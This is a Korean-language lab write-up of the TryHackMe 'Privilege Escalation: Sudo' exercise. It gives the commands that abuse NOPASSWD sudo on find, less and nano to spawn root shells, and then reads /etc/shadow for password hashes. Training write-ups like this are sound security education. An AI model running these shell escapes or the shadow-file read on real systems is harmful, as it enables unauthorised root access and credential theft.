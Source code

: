 ## Privilege Escalation: Sudo Exploitation
> TryHackMe의 "Privilege Escalation: Sudo" 실습을 통해, 특정 바이너리에 대한 sudo 권한을 악용하여 루트 권한을 획득하는 과정을 수행했습니다.

---

### 1. 실습 개요
- **타겟 머신 IP**: 10.10.60.159
- **공격 머신**: Kali Linux
- **사용 계정**: `karen:Password1`
- **OS 정보**: Ubuntu 20.04.1 LTS (Linux 5.4.0-1029-aws)
- **실습 일자**: 2025-04-19

---

### 2. 실습 과정

#### 2.1 SSH 접속

- 타겟 머신에 SSH로 접근 -> karen 계정과 주어진 비밀번호로 로그인 하였다.

```bash
ssh karen@10.10.60.159
```
![SSH 접속 및 로그인](./screenshots/ssh_connect.png)


#### 2.2 Sudo 권한 확인

- karen 사용자는 비밀번호 없이 `find`, `less`, `nano`를 sudo로 실행할 수 있는 권한이 있다. (NOPASSWD 설정)

```bash
sudo -l
```

![sudo -l 결과](./screenshots/sudo_result.png)


#### 2.3 GTFOBins 참고
- https://gtfobins.github.io/ 사이트에서 각 명령어(`find`, `less`, `nano`)에 대한 권한 상승 방식 참고하여 루트 쉘 획득 시도를 하였다.

---

### 3. 명령어별 권한 상승

#### 3.1 find 명령어 이용

- `-exec` 옵션을 사용하여 루트 권한으로 쉘을 실행하였다.
```bash
sudo find . -exec /bin/sh \; -quit
```
- 이후 루트 쉘에서 flag2.txt 파일을 검색 및 확인하였다.

```bash
find / -name flag2.txt
cat /home/ubuntu/flag2.txt
```
![find를 이용한 루트 쉘 및 플래그 획득](./screenshots/find_flag.png)

---

#### 3.2 less 명령어 이용

```bash
sudo less /etc/profile
!/bin/sh
```
- less 명령어로 파일을 열고 `!/bin/sh`를 실행하면 쉘이 생성되었다.

![파일 내용](./screenshots/file_content.png)

- 해당 쉘은 sudo로 실행되었기 때문에 루트 쉘을 획득하였다.

![less를 이용한 루트 쉘 획득](./screenshots/less_root.png)

---

#### 3.3 nano 명령어 이용
```bash
sudo nano
^R^X
reset; sh 1>&0 2>&0
```
- `nano` 실행 후 Ctrl+R, Ctrl+X 키를 눌러 명령 실행 모드 진입을 했다.
- `reset; sh 1>&0 2>&0` 입력하여 루트 쉘을 획득하였다.

![nano를 이용한 루트 쉘 획득](./screenshots/nano_root.png)

- 루트 권한이 부여되었음을 확인하였다.

```bash
cat /etc/shadow
```

- 루트 권한으로만 접근 가능한 `/etc/shadow` 파일 내용을 출력하였다.
- karen, frank 등의 계정 해시를 포함하여 모든 사용자 정보 확보하였다.

![shadow 파일 내용 확인](./screenshots/flag_and_user_property.png)

---

### 4. 최종 결과
- 루트 권한 획득 성공 (`uid=0(root)`)
- flag2.txt 파일에서 플래그 확보: `THM-402028394`
- `/etc/shadow` 파일을 통해 추가 사용자 정보 확보 가능

---

> ✅ Sudo NOPASSWD 설정과 GTFOBins 활용이 얼마나 강력한지를 실습을 통해 체감할 수 있었고, 각 바이너리 별로 쉘 획득 방식이 다양하다는 점을 실습으로 익힐 수 있었습니다.

